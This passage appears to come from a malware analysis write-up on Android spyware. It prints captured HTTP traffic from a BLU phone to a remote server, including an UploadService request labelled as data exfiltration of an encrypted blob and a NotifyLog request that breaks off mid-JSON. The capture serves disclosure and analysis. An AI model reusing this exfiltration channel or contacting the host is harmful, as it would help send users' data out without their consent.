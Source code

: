 ```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Length: 0
Date: Mon, 07 Nov 2016 01:03:21 GMT
```

#### <a name="UploadService-Request"></a>UploadService - Request (data exfiltration)

```
POST /UlisseWCF/UploadService.svc/UploadFile/8f4af21e-29fb-48e9-8b52-8cf87fcdec57/082982b2-e001-4d60-940e-47b923da1aae_2016.11.05_20.04.59__9000--999 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/octet-stream
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; BLU STUDIO 5.0 C Build/KOT49H)
Host: 68.233.237.11
Accept-Encoding: gzip
Content-Length: 834

(PKZip / encrypted blob)
```

#### <a name="UploadService-Response"></a>UploadService - Response

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Length: 0
Date: Sun, 06 Nov 2016 00:06:40 GMT
```

#### <a name="NotifyLog-Request"></a>NotifyLog - Request

```
POST /UlisseREST/api/log/NotifyLog HTTP/1.1
Connection: Keep-Alive
Content-Type: application/json
Accept: application/json
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; BLU STUDIO 5.0 C Build/KOT49H)
Host: 68.233.237.11
Accept-Encoding: gzip
Content-Length: 6326

{
  "ClientId": "8f4af21e-29fb-48e9-8b52-8cf87fcdec57",
  "Date": "Nov 5, 2016 8:05:07 PM",
```
